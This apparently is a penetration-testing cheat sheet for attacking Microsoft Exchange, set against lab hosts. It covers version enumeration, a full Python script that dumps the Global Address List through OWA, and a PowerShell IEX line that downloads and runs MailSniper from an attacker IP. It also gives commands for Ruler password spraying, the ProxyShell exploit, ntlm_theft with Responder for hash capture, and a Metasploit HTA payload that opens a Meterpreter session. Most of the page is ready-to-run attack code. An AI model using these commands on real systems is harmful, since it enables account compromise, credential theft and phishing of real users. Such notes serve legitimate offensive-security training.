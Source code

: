 # Exchange

To enumerate the version of Microsoft Exchange

```bash
curl https://10.129.132.217/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application -k | xmllint --format - | grep version 
```

### Exporting username lists

If we already have access to a computer within the domain or an email. [https://github.com/pigeonburger/global-address-list-owa](https://github.com/pigeonburger/global-address-list-owa)

<details>

<summary>Modified script to bypass SSL errors</summary>

```
# Extraction of the Global Address List (GAL) on Exchange >=2013 servers via Outlook Web Access (OWA) 
# By Pigeonburger, June 2021
# https://github.com/pigeonburger

# module import heehoo
import requests, json, argparse
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# argparser hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
parser = argparse.ArgumentParser(description="Extract the Global Address List (GAL) on Exchange 2013 servers via Outlook Web Access (OWA)")
parser.add_argument("-i", "--host", dest="hostname",
                  help="Hostname for the Exchange Server", metavar="HOSTNAME", type=str, required=True)
parser.add_argument("-u", "--username", dest="username",
                  help="A username to log in", metavar="USERNAME", type=str, required=True)
parser.add_argument("-p", "--password", dest="password",
                  help="A password to log in", metavar="PASSWORD", type=str, required=True)
parser.add_argument("-o", "--output-file", dest="output",
                  help="Specify file to output emails to (default is global_address_list.txt)", metavar="OUTPUT FILE", type=str, default="global_address_list.txt")

args = parser.parse_args()

url = args.hostname
USERNAME = args.username
PASSWORD = args.password
OUTPUT = args.output


# Start the session
s = requests.Session()
print("Connecting to %s/owa" % url)


# Get OWA landing page
# Add https:// scheme if not already added in the --host arg
try:
    s.get(url+"/owa", verify=False)
    URL = url
except requests.exceptions.MissingSchema:
    s.get("https://"+url+"/owa", verify=False)
    URL = "https://"+url


# Other URLs we need later
AUTH_URL = URL+"/owa/auth.owa"
PEOPLE_FILTERS_URL = URL + "/owa/service.svc?action=GetPeopleFilters"
FIND_PEOPLE_URL = URL + "/owa/service.svc?action=FindPeople"


# Attempt a login to OWA
login_data={"username":USERNAME, "password":PASSWORD, 'destination': URL, 'flags': '4', 'forcedownlevel': '0'}
r = s.post(AUTH_URL, data=login_data, headers={'user-agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"}, verify=False)


# The Canary is a unique ID thing provided upon a successful login that's also required in the header for the next few requests to be successful.
# Even upon an incorrect login, OWA still gives a 200 status, so we can also check if the login was successful by seeing if this cookie was set or not.
try:
    session_canary = s.cookies['X-OWA-CANARY']
except:
    exit("\nInvalid Login Details. Login Failed.")
print("\nLogin Successful!\nCanary key:", session_canary)


# Returns an object containing the IDs of all accessible address lists, so we can specify one in the FindPeople request
r = s.post(PEOPLE_FILTERS_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'GetPeopleFilters'}, data={}, verify=False).json()


# Find the Global Address List id
for i in r:
    if i['DisplayName'] == "Default Global Address List":
        AddressListId = i['FolderId']['Id']
        print("Global List Address ID:", AddressListId)
        break


# Set to None to return all emails in the list (this is the search term for the FindPeople request)
query = None


# Set the max results for the FindPeople request.
max_results = 99999


# POST data for the FindPeople request
peopledata = {
    "__type": "FindPeopleJsonRequest:#Exchange",
    "Header": {
        "__type": "JsonRequestHeaders:#Exchange",
        "RequestServerVersion": "Exchange2013",
        "TimeZoneContext": {
            "__type": "TimeZoneContext:#Exchange",
            "TimeZoneDefinition": {
                "__type": "TimeZoneDefinitionType:#Exchange",
                "Id": "AUS Eastern Standard Time"
            }
        }
    },
    "Body": {
        "__type": "FindPeopleRequest:#Exchange",
        "IndexedPageItemView": {
            "__type": "IndexedPageView:#Exchange",
            "BasePoint": "Beginning",
            "Offset": 0,
            "MaxEntriesReturned": max_results
        },
        "QueryString": query,
        "ParentFolderId": {
            "__type": "TargetFolderId:#Exchange",
            "BaseFolderId": {
                "__type": "AddressListId:#Exchange",
                "Id": AddressListId
            }
        },
        "PersonaShape": {
            "__type": "PersonaResponseShape:#Exchange",
            "BaseShape": "Default"
        },
        "ShouldResolveOneOffEmailAddress": False
    }
}


# Make da request.
r = s.post(FIND_PEOPLE_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'FindPeople'}, data=json.dumps(peopledata), verify=False).json()


# Parse out the emails, print them and append them to a file.
userlist = r['Body']['ResultSet']

with open(OUTPUT, 'a+') as outputfile:
    for user in userlist:
        email = user['EmailAddresses'][0]['EmailAddress']
        outputfile.write(email+"\n")
        print(email)

print("\nFetched %s emails" % str(len(userlist)))
print("Emails written to", OUTPUT)
```

</details>

```bash
python3 emailextract.py -i exch01.zencorp.local -u zen@zencorp.ocal -p 'pass@123'
```

#### Or use windows

PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.228:8000/MailSniper.ps1') PS C:\Tools> Get-GlobalAddressList -ExchHostname exch01.zencorp.local -Username zen -Password 'pass@123' -OutFile globaladdresslist.txt

### <mark style="color:yellow;">Password Spray</mark>

Use Ruler for password Spray

```bash
./ruler-linux64 --domain zencorp.local --insecure brute --users global_address_list.txt --passwords passwords.txt --verbose -a 4
```

### <mark style="color:yellow;">ProxyShell</mark>

```bash
proxyshell.py -u https://10.129.230.42/ -e Administrator@zencorp.local 
```

Or use metasploit

```bash
use exploit/windows/http/exchange_proxyshell_rce
```

### <mark style="color:yellow;">Phishing Attacks</mark>

Generate a htm file with ntlm\_theft, create htm file, attach in email and capture in Responder

```bash
# Create html file
python3 ntlm_theft.py -g htm -s 10.10.14.80 -f students

# Responder
sudo responder -I tun0
```

#### Arbitrary File Execution

With [https://www.shellterproject.com/](https://www.shellterproject.com/) its possible to take a legit executable and inject a malicious code to get a reverse shell.

#### Create a HTA file

```bash
# It will create and host the .hta file
msfconsole -x "use exploit/windows/misc/hta_server; set LHOST 10.10.14.207; set LPORT 8443; set SRVHOST 10.10.14.207; run -j"

# Send the link and once clicked
[*] Meterpreter session 1 opened (10.10.14.207:8443 -> 10.129.231.81:62367) at 2024-08-13 17:52:01 -0400
```
